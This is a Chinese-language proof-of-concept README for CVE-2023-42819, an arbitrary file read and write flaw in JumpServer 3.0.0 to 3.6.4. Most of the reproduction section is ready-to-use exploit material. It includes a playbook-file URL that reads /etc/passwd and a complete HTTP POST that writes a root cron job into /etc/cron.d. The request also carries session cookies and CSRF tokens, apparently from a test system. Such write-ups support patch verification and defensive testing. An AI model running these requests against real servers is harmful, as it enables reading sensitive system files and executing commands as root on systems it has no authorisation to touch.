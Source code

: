 # CVE-2023-42819

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** JumpServer任意文件读取漏洞

# 0x01 影响范围

3.0.0 <= Jump Server <= 3.6.4

# 0x02 环境搭建

在CentOS7系统下执行如下命令即可进行快速安装：

```bash
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.6.0/quick_start.sh | bash
cd /opt/jumpserver-installer-v3.8.1
./jmsctl.sh start
```

# 0x03 漏洞复现

```bash
/api/v1/ops/playbook/{ID}/file/?key=/etc/passwd#/
```

进入工作台，创建一个playbook，会获取一个ID

![Untitled](image/Untitled.png)

![Untitled](image/Untitled%201.png)

```bash
http://10.0.100.253/api/v1/ops/playbook/d85fc8e8-1b4b-42b7-8b3e-832fa4261650/file/?key=/etc/passwd#/
```

![Untitled](image/Untitled%202.png)

写入定时任务创建文件

```bash
POST /api/v1/ops/playbook/bd456105-c552-44ec-b890-6216656c1f7e/file/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FEdEhwL0JkRWtqYjNkb2NObWVGaGlxUFhVeQo0N0RPbU1DMTZ4QTBuL29ubWdIU3FXdktSSGlHQmlDdDNDTG1yUDM4MXpFZGZHaXA0anE1QThIS2grVjgyVjdCCk1IS044S29GTUZMZ3RFbGUwMTNRZTBSRTRWclgzc3JzZ05sZGNuVUQ1eVpFQTEyR2hUcWRPNTRpejQ4RmtOS1AKbjNMMS9jZDdIUlZsSm9TWUNRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_sessionid=708sbyw1e1zmfw79wdcbot2omas8cw3z; jms_csrftoken=SqmVxQn9Ue50oVvrEtQMMSy4MFjXhZaVdngoWFM0MZ2WdaKNjISftqKndsD9Dw3f; X-JMS-ORG=00000000-0000-0000-0000-000000000002; sidebarStatus=1; django_language=zh-hans; activeTab=PlaybookDetail; jms_session_expire=close
Upgrade-Insecure-Requests: 1
X-CSRFToken:SqmVxQn9Ue50oVvrEtQMMSy4MFjXhZaVdngoWFM0MZ2WdaKNjISftqKndsD9Dw3f
Content-Type: application/json
Content-Length: 116

{
"key":"/etc/cron.d",
"is_directory":false,
"name":"test1",
"content":"* * * * * root touch /tmp/success\n"
}
```